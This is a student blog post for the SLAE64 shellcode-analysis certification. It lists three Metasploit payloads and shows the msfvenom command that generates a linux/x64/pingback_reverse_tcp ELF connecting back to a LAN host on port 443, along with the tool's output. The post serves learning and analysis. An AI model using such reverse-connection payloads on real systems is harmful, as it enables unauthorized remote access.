 Title: SLAE64 - Assignment 5.2
Date: 2022-06-25T09:03:11.000Z


## Disclaimer


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

[https://www.pentesteracademy.com/course?id=7](https://www.pentesteracademy.com/course?id=7)

Student ID: PA-30398

## Analysis

For the fifth assignment, I decided to analyze the following shellcode samples:

<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x64/meterpreter/reverse_tcp</td>
<td>Inject the mettle server payload (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x64/pingback_reverse_tcp</td>
<td>Connect back to attacker and report UUID (Linux x64)</td>
</tr>
<tr>
<td>linux/x64/shell_bind_ipv6_tcp</td>
<td>Listen for an IPv6 connection and spawn a command shell</td>
</tr>
</tbody>
</table>

In this post, I'll document the logic of the second shellcode, `linux/x64/pingback_reverse_tcp`.

Let's start from the very beginning, i.e. generating the shellcode, which you can do by means of the `ruby` script `msfvenom` available by default on Kali Linux distributions.

Follows the command I used in order to generate the shellcode for this assignment:

```bash
msfvenom -p linux/x64/pingback_reverse_tcp LHOST=192.168.1.170 LPORT=443 -f elf -o shellcode        
# [-] WARNING: UUID cannot be saved because database is inactive.
# [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
# [-] No arch selected, selecting arch: x64 from the payload
# No encoder specified, outputting raw payload
# Payload size: 125 bytes
# Final size of elf file: 245 bytes
# Saved as: shellcode
```
